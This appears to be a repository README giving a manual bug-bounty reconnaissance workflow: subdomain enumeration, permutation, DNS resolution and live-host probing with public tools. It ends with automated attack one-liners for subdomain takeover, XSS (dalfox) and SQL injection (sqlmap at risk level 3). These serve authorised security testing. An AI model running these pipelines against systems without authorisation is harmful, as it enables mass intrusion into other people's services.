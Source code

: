 # recon_manual
manual recon

## Subdomains Full gather

```
subfinder -d redacted.com -all -silent -nc -o subdomains.txt
```
```
assetfinder --subs-only redacted.com | sort -u >> subdomains.txt
```
```
amass enum -passive -d redacted.com -silent -nocolor | sort -u >> subdomains.txt
```

I utilized the Shuffledns tool to perform Subdomain Bruteforce and saved the resulting output in a file named subdomains.txt.

```
shuffledns -d redacted.com -r /root/tools/massdns/lists/resolvers.txt -w subdomains-top1million-5000.txt -silent -nc | sort -u >> subdomains.txt
```
In the Subdomain Permutation step, I used the Altrex tool to create a new list of subdomains with permutations.

```
cat subdomains.txt | alterx -silent -o subdomain-permutation.txt
```
Apart from other tools, one can also utilize the dnsgen tool. While working on DNS resolving, I used the massdns tool. Although dnsx is also a viable option, previous tests revealed that massdns performs much faster.

```
cat subdomain-permutation.txt | massdns -r /root/tools/massdns/lists/resolvers.txt -o L -w dns-resolving.txt
```
## All Live Domains finding using httpx
```
cat dns-resolving.txt | httpx -sc -title -td -favicon -asn -silent -nc -o service-discovery.txt
```

All done run your scans ...

## Subdomain Takeover
```
subzy run --targets subdomain-permutation.txt --hide_fails --https --timeout 10 | notify
```

## XSS Automation oneliner
```
cat onsurity-final-live.txt | katana | Gxss -c 100 | dalfox pipe --skip-bav --skip-mining-all --skip-grepping 
```

## SQLi oneliner
```
cat subdomain-permutation.txt | dnsx | waybackurls | uro | grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level=1 | tee sql_sara.txt
```
```
cat subdomain-permutation.txt | dnsx | waybackurls | sort -u | gf sqli > gf_sql.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a gf_sqli.txt
```
